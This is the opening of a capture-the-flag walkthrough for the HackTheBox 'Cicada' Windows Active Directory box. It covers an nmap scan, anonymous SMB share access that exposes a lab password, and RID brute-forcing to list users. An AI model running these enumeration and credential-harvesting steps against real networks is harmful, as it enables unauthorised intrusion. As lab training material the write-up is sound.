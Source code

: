 ```yaml
---
title: Cicada HTB — Full Walkthrough
published: 2025-06-28
description: A detailed walkthrough of the Cicada HTB Windows Active Directory box, covering reconnaissance, initial access, privilege escalation, and domain admin takeover.
tags: [HTB, Active Directory, SMB, Privilege Escalation, Windows, CTF]
category: Walkthrough
draft: false
---
```


# Cicada HTB — Full Walkthrough

**Difficulty:** Easy

**Platform:** HackTheBox

**Target:** Windows (Active Directory)

**Objective:** Gain Domain Admin access and capture flags

## 1. Reconnaissance

Perform a full TCP port scan:  
```bash
nmap -sC -sV -T4 10.10.11.35 -p- -A -o nmapScan.txt
```

**Findings:**  
- Standard AD ports: 445 (SMB), 389 (LDAP), 88 (Kerberos), etc.  
- Identified as an Active Directory environment.

## 2. Initial Access

Enumerate SMB with anonymous access:  
```bash
smbmap -H 10.10.11.35 -u 'anonymous'
```

Access the HR share:  
```bash
smbclient \\\\10.10.11.35\\HR -U "anonymous"
```

**Files Found:**  
- `Notice from HR.txt` (contains password: `Cicada$M6Corpb*@Lp#nZp!8`)

## 3. User Enumeration

Brute force RID to enumerate users:  
```bash
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```
